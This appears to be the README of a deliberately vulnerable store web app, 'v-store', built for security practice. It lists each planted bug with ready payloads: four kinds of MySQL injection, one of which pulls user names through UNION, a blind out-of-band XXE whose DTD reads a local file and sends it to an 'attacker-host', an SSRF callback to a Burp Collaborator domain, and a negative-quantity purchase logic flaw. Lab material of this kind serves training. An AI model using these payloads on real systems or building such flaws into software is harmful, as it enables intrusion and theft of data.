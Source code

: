 # v-store
/Vstore

## Bug API
### 1. GET "/product/findUnsafe"
- Bug: SQLi
- Params: {name}
- Payload:
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://localhost:8080/product/findUnsafe?name=' OR 6776=6776#
    
    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: http://localhost:8080/product/findUnsafe?name=a'union+select+user_name,null,null,null+from+user;%23

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND GTID_SUBSET(CONCAT(0x716b6b6a71,(SELECT (ELT(8054=8054,1))),0x716b717871),8054)-- jkbJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND (SELECT 5823 FROM (SELECT(SLEEP(5)))RyfP)-- FGig
    
### 2. POST "/product/showBillVuln"
- Bug: Blind Out-of-Band XXE
- Params: object User in body request
- Payload: 
+ SSRF 
```
  <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://kayrz7fdlsb6w9gif751ob26rxxtli.burpcollaborator.net"> ]>
    <user>
      <id_user>&xxe;</id_user>
    </user>
  ```
+ OOB
--- DTD file ---
```
<!ENTITY % file SYSTEM "file:///d:/cache.txt">
        <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-host/%file;'>">
        %eval;
        %exfiltrate;
```
-- payload --
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://DTD-url"> %xxe;]>
<user>
<id_user>1</id_user></user>
```

### 3. POST "/product/buy"
- Bug: Logic
- Params: {num, id}
- Payload: num=-1&id=5
   
